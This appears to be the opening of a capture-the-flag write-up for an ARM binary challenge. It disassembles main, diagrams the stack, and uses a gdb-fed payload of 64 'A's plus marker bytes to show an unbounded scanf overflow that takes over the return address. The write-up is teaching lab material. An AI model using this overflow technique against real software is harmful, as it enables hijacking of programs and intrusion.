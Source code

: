 If we'll execute the binary, it will display the following output:
```bash
app-systeme-ch46@challenge04:~$ ./ch46 
Give me data to dump:
1234567890
Payload is: 
31 32 33 34 35 36 37 38 39 30 
```

Well ok. let's take a look at the **main** function:
```asm
   0x00010638 <+0>:	push	{r11, lr}
   0x0001063c <+4>:	add	r11, sp, #4
   0x00010640 <+8>:	sub	sp, sp, #72	; 0x48
   0x00010644 <+12>:	str	r0, [r11, #-72]	; 0xffffffb8
   0x00010648 <+16>:	str	r1, [r11, #-76]	; 0xffffffb4
   0x0001064c <+20>:	movw	r0, #1772	; 0x6ec
   0x00010650 <+24>:	movt	r0, #1
   0x00010654 <+28>:	bl	0x10428 <puts@plt>
   0x00010658 <+32>:	sub	r3, r11, #68	; 0x44
   0x0001065c <+36>:	mov	r1, r3
   0x00010660 <+40>:	movw	r0, #1796	; 0x704
   0x00010664 <+44>:	movt	r0, #1
   0x00010668 <+48>:	bl	0x1047c <__isoc99_scanf@plt>
   0x0001066c <+52>:	sub	r3, r11, #68	; 0x44
   0x00010670 <+56>:	mov	r0, r3
   0x00010674 <+60>:	bl	0x105b4 <dump>
   0x00010678 <+64>:	mov	r3, r0
   0x0001067c <+68>:	mov	r0, r3
   0x00010680 <+72>:	sub	sp, r11, #4
   0x00010684 <+76>:	pop	{r11, pc}
```
It's a short function and pretty easy to understand what's up here - first a message is printed using **puts** ("Give me data to dump:\n"), then 64 bytes in the stack are saved for a local variable which is used for storing the **scanf**'s buffer and lastly the buffer is printed in hex values using the **dump** function.<br><br>
So, at the end of the **scanf** call, the stack would look like the following:
```
                    +-----------------------+
                    |           lr          |
                    +-----------------------+
                    |           fp          |
                    +-----------------------+
                    |                       |
                    |  64 bytes containing  | 
                    |      user's input     |
                    |                       |
                    +-----------------------+
```
Let's verify it using gdb:
```gdb
(gdb) run < <(python -c "print 'A'*64 + 'CCCC' + 'DDDD'")
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + 'CCCC' + 'DDDD'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 43 43 43 43 44 44 44 44 

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```